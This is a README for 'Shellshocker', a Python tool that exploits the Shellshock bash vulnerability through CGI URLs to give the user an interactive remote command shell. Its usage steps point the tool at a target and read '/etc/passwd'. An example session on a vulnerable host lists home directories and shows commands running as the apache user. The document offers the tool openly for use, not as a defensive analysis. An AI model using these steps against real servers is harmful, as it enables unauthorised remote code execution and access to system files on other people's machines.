 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage:
  1. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"


  2. Hit command and press enter: "cat /etc/passwd"


  3. Read the output :)

### Requirements:
  1. Python  
  2. Mechanize (Can installed by: 'sudo pip install mechanize')

### Examples:
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
shellshock/command$ ls -lath /home

total 16K
dr-xr-xr-x. 22 root    root    4.0K Feb  9 21:14 ..
drwxrwxrwx.  2 bynarr  bynarr  4.0K Jan 27  2015 bynarr
drwx------   2 apophis apophis 4.0K Jan  2  2015 apophis
drwxr-xr-x.  4 root    root    4.0K Dec 30  2014 .

shellshock/command$ whoami

apache

shellshock/command$ ^C
Aborted / Invulnerable
```
